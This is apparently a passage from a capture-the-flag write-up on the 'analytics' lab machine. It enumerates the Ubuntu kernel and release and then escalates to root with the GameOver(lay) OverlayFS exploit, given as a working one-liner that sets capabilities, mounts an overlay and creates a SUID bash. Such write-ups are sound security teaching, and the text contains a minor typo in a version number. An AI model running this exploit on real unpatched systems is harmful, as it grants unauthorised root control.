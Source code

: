 
```bash
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```


It was discovered that the machine was using the Linux Kernal version 6.2.0 and was running Ubuntu version 222.04.2. For further information another command was run to view to os-release:


```bash
metalytics@analytics:~$ cat /etc/os-release 
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```


Researching for vulnerabilities targeting Ubuntu version 22.04.3 LTS (Jammy Jellyfish), it was found that it was vulnerable to the Ubuntu Privilege escalation exploit known as GameOverlayFS. This exploit and payload are explained in: https://medium.com/@0xrave/ubuntu-gameover-lay-local-privilege-escalation-cve-2023-32629-and-cve-2023-2640-7830f9ef204a.



OverlayFS is a union file system in Linux that allows merging multiple directories or file systems into a single directory structure. The GameOverlay exploit utilises a Linux feature called "file capabilities" that grants elevated privileges to executables while they're executed. This feature is reserved for the root user, while lower-privileged users cannot create such files. However, the exploit is used to craft an executable file with “scoped” file capabilities to trick the Ubuntu kernel into copying it to a different location with “unscoped” capabilities, granting anyone who executes it root-like privileges.


Using the public vulnerabilities as described, the following commands were run:


```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;"
metalytics@analytics:~$ u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
root@analytics:/root# whoami
root
```


The root user was then successfully obtained and root.txt file could now be viewed.
